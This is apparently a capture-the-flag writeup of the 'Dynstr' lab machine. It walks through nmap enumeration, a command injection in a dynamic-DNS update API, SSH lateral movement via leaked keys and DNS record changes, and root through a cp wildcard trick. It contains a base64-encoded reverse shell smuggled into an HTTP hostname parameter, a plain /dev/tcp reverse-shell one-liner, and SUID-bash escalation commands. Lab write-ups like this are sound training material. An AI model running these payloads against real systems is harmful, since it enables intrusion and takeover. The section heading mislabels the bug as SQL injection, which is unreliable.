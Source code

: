 permalink: /dyster
layout: post
author: jkr
title: Writeup
date: 2021-10-17
publish: True

description: "Dynstr is a medium difficulty Linux machine featuring a blog providing Dynamic DNS services. The application API is vulnerable to command injection using which a foothold can be gained. Enumerating one of the users folders leaks SSH private key. Updating DNS zone records allows SSH access which helps in lateral movement. By exploiting a wildcard injection in a bash script root access can be obtained.
"


# Enumeration
## Nmap

```bash
sudo nmap -sC -sV -oA nmap/dynstr 10.10.10.244

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 05:7c:5e:b1:83:f9:4f:ae:2f:08:e1:33:ff:f5:83:9e (RSA)
|   256 3f:73:b4:95:72:ca:5e:33:f6:8a:8f:46:cf:43:35:b9 (ECDSA)
|_  256 cc:0a:41:b7:a1:9a:43:da:1b:68:f5:2a:f8:2a:75:2c (ED25519)
53/tcp   open  domain  ISC BIND 9.16.1 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.16.1-Ubuntu
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Dyna DNS


```

Three ports 
- 22
- 53
- 80

![](/Writeups/Dynster/Pasted image 20211017070917.png)

Ubuntu 20

# FootPath
### Port 80

![](/Writeups/Dynster/Pasted image 20211017070142.png)

![](/Writeups/Dynster/Pasted image 20211017070217.png)

Creds

|Username|Password|
|---|---|
|dynadns| sndanyd|

We are providing dynamic DNS for anyone with the same API as no-ip.com has. Maintaining API conformance helps make clients work properly.


Dynamic DNS for a number of domains:

-   dnsalias.htb
-   dynamicdns.htb
-   no-ip.htb

no-ip API

```
http://username:password@dynupdate.no-ip.com/nic/update?hostname=mytest.example.com&myip=192.0.2.25

```

Port 53

```bash

dig axfr @10.10.10.244 dynstr.htb


; <<>> DiG 9.16.12-Debian <<>> axfr @10.10.10.244 dynstr.htb
; (1 server found)
;; global options: +cmd
; Transfer failed.


```

Checking for zones It didn't work.

Sql Injection in API


```bash
GET /nic/update?hostname=t`echo+YmFzaCAtaSA%2bJiAvZGV2L3RjcC8xMC4xMC4xNC40OC85MDAxIDA%2bJjEK|+base64+-d+|+bash`est.no-ip.htb&myip=10.10.14.48 HTTP/1.1
Host: 10.10.10.244
Authorization: Basic ZHluYWRuczpzbmRhbnlk
User-Agent: curl/7.74.0
Accept: */*
Connection: close

```

![](/Writeups/Dynster/Pasted image 20211017073334.png)

```bash

## first command Replace ip and port

echo 'bash -i >& /dev/tcp/10.10.14.48/9001 0>&1' | base64 

## second command

echo -ne YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40OC85MDAxIDA+JjEK| base64 -d | bash

```

![](/Writeups/Dynster/Pasted image 20211017073652.png)

TTY shell

```bash
python3 -c 'import pty; pty.spawn("bin/bash")'
ctrl+z 
stty -raw echo;fg 
return 
export TERM=xterm

```


# User

private_key for bindmgr found at `/home/bindmgr/support-case-C62796521`

![](/Writeups/Dynster/Pasted image 20211017074518.png)

copy to your machine use vim editor to replace new line

```vim

:s/\\n/\r/g

```

sshing using private key is not working.

![](/Writeups/Dynster/Pasted image 20211017075036.png)

Entry is only allowed from a patricular domain `.infra.dyna.htb`

looking at update file at /var/www/html/nic we can our ip to that domain using nsupdate to create new DNS record

```php
www-data@dynstr:/var/www/html/nic$ cat update 
<?php
  // Check authentication
  if (!isset($_SERVER['PHP_AUTH_USER']) || !isset($_SERVER['PHP_AUTH_PW']))      { echo "badauth\n"; exit; }
  if ($_SERVER['PHP_AUTH_USER'].":".$_SERVER['PHP_AUTH_PW']!=='dynadns:sndanyd') { echo "badauth\n"; exit; }

  // Set $myip from GET, defaulting to REMOTE_ADDR
  $myip = $_SERVER['REMOTE_ADDR'];
  if ($valid=filter_var($_GET['myip'],FILTER_VALIDATE_IP))                       { $myip = $valid; }

  if(isset($_GET['hostname'])) {
    // Check for a valid domain
    list($h,$d) = explode(".",$_GET['hostname'],2);
    $validds = array('dnsalias.htb','dynamicdns.htb','no-ip.htb');
    if(!in_array($d,$validds)) { echo "911 [wrngdom: $d]\n"; exit; }
    // Update DNS entry
    $cmd = sprintf("server 127.0.0.1\nzone %s\nupdate delete %s.%s\nupdate add %s.%s 30 IN A %s\nsend\n",$d,$h,$d,$h,$d,$myip);
    system('echo "'.$cmd.'" | /usr/bin/nsupdate -t 1 -k /etc/bind/ddns.key',$retval);
    // Return good or 911
    if (!$retval) {
      echo "good $myip\n";
    } else {
      echo "911 [nsupdate failed]\n"; exit;
    }
  } else {
    echo "nochg $myip\n";
  }
?>
```


```bash
www-data@dynstr:/var/www/html/nic$ nsupdate -t 1 -k /etc/bind/infra.key 
> ADD aju.infra.dyna.htb 30 IN A 10.10.14.91
> send
> ADD 91.14.10.10.in-addr.arpa 30 IN PTR aju.infra.dyna.htb
> send
```

![](/Writeups/Dynster/Pasted image 20211017084635.png)

# Root

User bindmgr may run the following commands on dynstr:
    (ALL) NOPASSWD: /usr/local/bin/bindmgr.sh
	
	```bash
	cp .version * /etc/bind/named.bindmgr/
	```
	
We can exploit cp to get root

Do following

```bash

echo 1 >.version
cp /bin/bash . 
chmod u+s bash 
touch -- '--preserve=mode'

```
	
![](/Writeups/Dynster/Pasted image 20211017085933.png)


[back](/writeup)
